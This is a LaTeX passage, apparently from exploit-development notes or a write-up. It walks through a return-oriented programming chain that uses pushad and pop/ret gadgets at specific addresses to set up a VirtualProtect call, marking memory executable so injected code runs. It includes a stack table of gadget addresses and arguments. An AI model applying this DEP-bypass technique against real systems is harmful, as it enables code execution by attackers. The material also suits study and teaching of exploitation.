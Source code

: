 \documentclass{article}
\begin{document}
After the first ‘pushad’ call we will again have our esp point to the bottom this section (in
the same place as before). We will again execute 14 then 16 then 20 and call
0x9ad9e71c. Then finally our stack will look like this: with esp pointing to 13.

\begin{center}
    \begin{tabular}{|c|c|c|}
        \hline
        & \textbf{Stack (lower=bottom)} & \textbf{Explanation} \\
        \hline
        \hline
        24 & \texttt{0x00201010} & //arg 3 for Virtual protect indicates empty place \\
        & & to copy previous permissions to \\
        \hline
        23 & \texttt{0x40000040} & //arg 2 for Virtual protect indicates permissions \\
        & & to chenge to \\
        \hline
        22 & \texttt{0x00001000} & //arg 1 for Virtual protect indicates size of block \\
        & & to change \\
        \hline
        21 & \texttt{[[0x70707070]+1B]} (eax) & //pushed by pushad \\
        \hline
        20 & \texttt{[0x70707070]+1B]} (eax) & //pushed by second pushad \\
        \hline
        19 & Virtual Protect Adress (ecx) & //ready to call Virtual protect with ret address \\
        & & eax and arguments 21-24 \\
        \hline
        18 & junk (edx) & //value left by pushad \\
        \hline
        17 & junk (edx) & //value left by pushad \\
        \hline
        16 & Esp before 'pushad' & //value left by pushad \\
        \hline
        15 & 0x9ad9e702 (ebp) & pop ebx // used to move esp up 16 bytes \\
        & & pop ecx \\
        & & pop ebx \\
        & & ret \\
        \hline
        14 & Junk (esi) & //unknown value left by pushad \\
        \hline
        13 & \texttt{0x9ad9e704} (edi) & pop ebx //used to move esp up by 8 bytes \\
        & & ret \\
        \hline        
    \end{tabular}
\end{center}
Now our jump to Virtual Protect is finally set up and we will have our esp points to 13 so
is will execute 13 then 15 then 19 and jump to Virtual Protect.
When returning from Virtual Protect we will automatically jump to our code in the new
page because its in the return address.
\end{document}
